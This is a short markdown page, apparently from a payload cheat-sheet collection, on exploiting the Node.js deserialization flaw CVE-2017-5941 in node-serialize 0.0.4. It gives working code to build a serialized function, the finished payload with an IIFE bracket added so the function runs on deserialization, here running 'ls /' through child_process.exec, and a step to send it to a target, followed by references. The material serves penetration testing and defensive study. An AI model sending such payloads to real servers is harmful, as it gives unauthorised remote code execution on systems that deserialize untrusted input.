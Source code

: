 # Node Deserialization

## Summary

* [Exploit](#exploit)
* [References](#references)

## Exploit

> An issue was discovered in the node-serialize package 0.0.4 for Node.js. Untrusted data passed into the `unserialize()` function can be exploited to achieve arbitrary code execution by passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).

1. Generate a serialized payload
    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```
2. Add bracket `()` to force the execution
    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```
3. Send the payload


## References

* [Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941) - Ajin Abraham](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
* [NodeJS Deserialization - 8 January 2020- gonczor](https://blacksheephacks.pl/nodejs-deserialization/)
* [CVE-2017-5941 - NATIONAL VULNERABILITY DATABASE - 02/09/2017](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)